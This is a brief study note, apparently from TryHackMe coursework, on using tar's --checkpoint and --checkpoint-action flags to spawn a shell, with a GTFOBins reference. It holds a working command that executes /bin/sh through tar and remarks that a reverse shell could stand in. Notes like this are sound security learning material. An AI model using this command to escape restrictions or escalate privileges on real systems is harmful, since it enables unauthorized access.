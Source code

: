 # Exploiting “tar”

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null \
    --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 2, 2021
